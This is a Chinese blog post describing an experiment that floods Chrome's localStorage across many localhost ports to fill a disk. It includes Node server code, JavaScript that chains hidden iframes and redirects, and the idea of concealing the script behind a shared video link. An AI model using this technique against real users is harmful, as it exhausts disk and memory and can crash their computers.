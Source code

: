 ```yaml
---
title: '作为一个前端，可以如何机智地弄坏一台电脑？'
date: 2015-07-06 22:30

reward: true
---
```


有人说，前端的界限就在浏览器那儿。

无论你触发了多少 bug，最多导致浏览器崩溃，对系统影响不到哪去。
这就像二次元各种炫酷的毁灭世界，都不会导致三次元的世界末日。
然而，作为一个前端，我发现是有方式打开次元大门的…

这个实验脑洞较大，动机无聊，但某种意义上反映了一些**安全问题**。
想象一下，有天你在家里上网，吃着火锅还唱着歌，**点开一个链接，电脑突然就蓝屏了**！想想还真有点小激动。

<!-- more -->

### 起因

故事得从 localStorage 说起。

html5 的本地存储，相信大家都不陌生。将数据以二进制文件形式存储到本地，在当前应用得非常广泛。
windows 下的 chrome，localStorage 存储于`C:\Users\xxx\AppData\Local\Google\Chrome\User Data\Default\Local Storage`文件夹中。但如果任由网页无限写文件，对用户硬盘的伤害可想而知，因而浏览器对其做了大小限制。

对于一个域名+端口，PC 侧的上限是 5M-10M 之间，移动侧是则不大于 2.5M。

那么问题就变成：**这样的限制足够保护用户硬盘了吗**？

### 关键

关键的问题在于，这一限制，针对的是一个`域名+端口`。
也就是说，你访问`同一个域名的不同端口`，它们的 localStorage 并无关联，是分开存储的。

我用 node 简单地开启了服务器，这时，用户访问`http://127.0.0.1:1000`到`http://127.0.0.1:1099`这 100 个端口，会请求到同一个页面：`index.html`：

```
var http = require('http');
var fs = require('fs');

//100个端口
for(var port = 1000; port< 1100; port++){
  http.createServer(function (request, response) {
    //请忽略这种循环读文件的方式，只为了简便
    fs.readFile('./index.html', function(err, content){
      if(err) {
      } else {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
      }
    });
  }).listen(port, '127.0.0.1');
}
```

当然，这个 index.html 里涉及了 localStorage 写操作。

```
var s = "";
//慢慢来，别写太大了，好害怕…
for(var i=0; i< 3 * 1024 * 1024; i++){
  s += "0";
}
localStorage.setItem("testData", s);
```

我试着用浏览器分别访问了几个端口，结果是分开存储。一切跟剧本一样。

### 自动遍历

但这种程度还不够。
如果要实验变得更好（xie）玩（e）一些，问题就变成如何`让用户自动遍历这些端口`？

iframe 是个好的尝试。
只要一打开`http://127.0.0.1: 1000`，页面的脚步就会创建一个 iframe，去请求`http://127.0.0.1: 1001`，一直循环下去。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1100; //最大限制
  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      //新添加iframe
      var url = "http://127.0.0.1:" + port;
      var $iframe = document.createElement("iframe");
      $iframe.src = url;
      document.getElementsByTagName("body")[0].appendChild($iframe);
    }
  }
})();
```

当然 iframe 我们还可以设置为不可见，以掩盖这种不厚道的行为…
比方说，有人发给你一个链接，你打开后发现是个视频，而你根本注意不到背后的脚本，在视频播放的几分钟里，快要把你的 C 盘写满。

然后我就看到请求如潮水渐涨：
![](/assets/blogImg/localstorage1.png)

但是，请求到 1081 端口，最新的 chrome 就崩溃掉了…原来 iframe 嵌套太多，已经到达了浏览器的极限。

###防止浏览器崩溃

C 盘还未撑满，同志还需努力。怎么办？

突然想到，到达 iframe 极限之前，我们可以重定向啊。
每访问 50 个端口，就使用`window.location.href`重定向一次，去确保浏览器不崩溃。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1200; //最大限制
  var _jumpSpace = 50; //为避免iframe过多导致浏览器crash，每50个执行跳转

  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      if(port % _jumpSpace == 0){
        //每50个，重定向一次
        window.location.href = url;
      }else{
        //新添加iframe
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
      }
    }
  }
})();
```

事实证明，这种蛮拼的方法的确可行。

至此，只要访问`http://127.0.0.1: 1000`，就会往 Local Storage 文件夹里写入近 500M 无用数据：
![](/assets/blogImg/localstorage3.png)

里面的数据是这样的：
![](/assets/blogImg/localstorage2.png)

### 继续实验的黑科技

算了下我的 C 盘还有空间嘛，那就把端口数量从 100 增长到 200 个。
结果是这样的，到达了 1.17G 大小。
![](/assets/blogImg/localstorage4.png)

在后续的实验中，我就慢慢的把端口数量与存储的数据调大。

电脑也运行得越来越慢。这是为什么呢？

我观察到，有时候执行`localStorage.setItem()`后，在文件夹里不一定立即能看到数据文件。
怀疑这些数据会被 chrome 先放到内存里，以避免重复读写带来的消耗，在空闲或关闭的时机，再写进硬盘里。

但此时，浏览器已经影响到系统了。它处于一种“不会崩溃”，但“因为占用了许多内存，已经妨碍用户电脑的正常使用”的状态。
即使用户关闭了浏览器窗口，也不会很快恢复。要知道读写任务并不是随窗口关闭而终止的，否则浏览器会丢失数据。

遭遇黑科技的人们能做的只有：

1. 等待；
2. 用任务管理器关掉 chrome 进程，再等待；
3. 相信并尝试“重启电脑解决 90%电脑问题”的科学论断

可以说，浏览器的内心几乎是崩溃的。

### 最后

最后，还是得用严肃脸告诫一下：害人之心不可无。
本实验，从一开始就是怀揣着将`安全问题上交给国家的初衷`去做的（是的就是这么纯粹）。

后续，看着 C 盘还有 2G 空间，我又把端口增长到 2000 个，试下会发生什么。
由于请求过多，需要一定时间，我就去做别的事情了。
回来后发现房间安静祥和，美轮美奂，一片蓝光，像是加了特技。

![](/assets/blogImg/localstorage5.png)

那么问题来了，计算机修理哪家强？
有点急…
